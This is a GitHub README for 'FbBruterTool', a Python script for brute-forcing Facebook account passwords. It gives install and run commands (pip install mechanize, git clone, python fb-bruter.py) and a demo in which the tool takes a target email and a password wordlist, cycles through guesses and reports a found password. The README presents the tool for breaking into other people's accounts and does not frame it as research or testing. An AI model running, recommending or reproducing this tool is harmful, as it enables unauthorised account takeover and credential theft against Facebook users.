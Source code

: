 # FbBruterTool
Facebook Python Brute Force

# Installation
```
pip install mechanize
```
```
git clone https://github.com/diean606/larteam-fb.git
```
```
cd FbBruterTool
```
```
python fb-bruter.py
```

# Demo
```
root@username:~ python fb-bruter.py
[?] Target Username/ID/Email >>> my.target@something.com

[?] Wordlist Directory >>> passwordFile.lst

BruteForcing my.target@something.com Now...

[!] Wrong Password! > qwertyuiop
[!] Wrong Password! > qwertyuiop123
[!] Wrong Password! > 123456789

#############################################

[+] Password Found! > password123

root@username:~ 
```
